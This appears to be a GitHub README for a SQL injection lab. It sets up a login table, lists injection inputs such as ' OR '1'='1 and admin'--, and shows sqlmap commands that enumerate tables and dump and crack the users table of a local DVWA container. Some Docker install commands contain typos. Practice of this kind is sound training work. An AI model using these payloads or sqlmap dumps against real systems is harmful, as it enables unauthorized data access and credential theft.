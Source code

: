 ```
    ___     __    __           __                      _ 
   /   |   / /   / /  ____    / /_   ____ _   ____    (_)
  / /| |  / /   / /  / __ \  / __ \ / __ `/  / __ \  / / 
 / ___ | / /   / /  / /_/ / / /_/ // /_/ /  / / / / / /  
/_/  |_|/_/   /_/   \____/ /_.___/ \__,_/  /_/ /_/ /_/  
```

# Setting Up LoginSystem with SQL Database
* Create Database and Table

```
CREATE DATABASE IF NOT EXISTS YourDatabaseName;

USE YourDatabaseName;

CREATE TABLE IF NOT EXISTS Users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL,
    isAdmin BOOLEAN DEFAULT FALSE
);
```
Replace YourDatabaseName with your desired database name.



* Connect with Python Loginsystem.py - (edit the code) 

# Simple SQL Injection Examples
* For simple SQL injection, you can use ' OR '1'='1 or admin'-- in your input fields.

``` 
username = ' OR '1'='1
password = Anything
```

```
username = admin'--
password = Anything

```

<img src="./PNGs/6.png">


# SQLmap Installation
To install SQLmap, it's recommended to clone the Git repository:
```zsh
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```
#  Docker Installation
Ensure Docker is installed on your system. If not, you can install it using:

``` 
sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker
```
# Usage with DVWA (Damn Vulnerable Web Application)
1. Run DVWA Docker container:

```
 docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
2. Access DVWA in your browser at http://127.0.0.1.

3. Login with the following credentials:

```
Username: admin
Password: password

```
4. creat database 
<img src="./PNGs/1.png">

5. go to SQL injection 
<img src="./PNGs/4.png">



# SQL Injection Attack

1. Navigate to the SQL injection page in DVWA.
2. Enter any input into the input field.


<img src="./PNGs/5.png">

3. Copy the URL and obtain the PHP session ID (PHPSESSID) and security level cookies.

<img src="./PNGs/2.png">

## Using SQLmap
<img src="./PNGs/8.png">
You can use SQLmap to perform various tasks, such as: 
* Viewing all tables on the webpage:

```
cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
* Viewing all table schemas:

```
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
* Viewing schema for a specific table ('users'):
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```
<img src="./PNGs/7.png">

* Viewing table content and cracking password hashes:
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```
* outcome: 

<img src ="./PNGs/3.png">



